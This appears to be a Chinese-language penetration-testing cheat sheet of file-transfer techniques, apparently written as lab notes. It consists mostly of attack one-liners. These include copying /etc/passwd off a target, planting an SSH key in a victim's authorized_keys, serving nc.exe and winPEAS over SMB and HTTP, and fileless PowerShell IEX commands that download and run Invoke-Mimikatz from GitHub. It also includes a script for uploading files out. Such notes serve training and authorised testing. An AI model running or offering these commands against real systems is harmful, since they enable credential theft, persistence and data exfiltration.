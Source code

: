 - 傳輸一整個資料夾的內容到目標主機
```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
- 出現以下錯誤可以用`-O`參數處理
```
scp -i id_rsa max@192.168.247.100:/etc/passwd .
scp: Received message too long 1094927173
scp: Ensure the remote shell produces no output for non-interactive sessions.
```
```
scp -i id_rsa -O /home/kali/Desktop/PG_PRATICE/Linux/Sorcerer/home/max/.ssh/authorized_keys  max@192.168.247.100:/home/max/.ssh/authorized_keys
```

## SMB相關
### 一鍵下載SMB所有資料
```
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```
### 一鍵開啟SMB server
```
smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
### 複製資料到SMB server
```
copy \\192.168.220.133\share\nc.exe
```
``` cmd
net use n: \\192.168.220.133\share /user:test test
```
## PowerShell 各種操作
### 下載資料
``` powershell
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
```
``` powershell
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```
``` powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
- Fileless Download Method
``` powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
### 上傳資料
``` powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
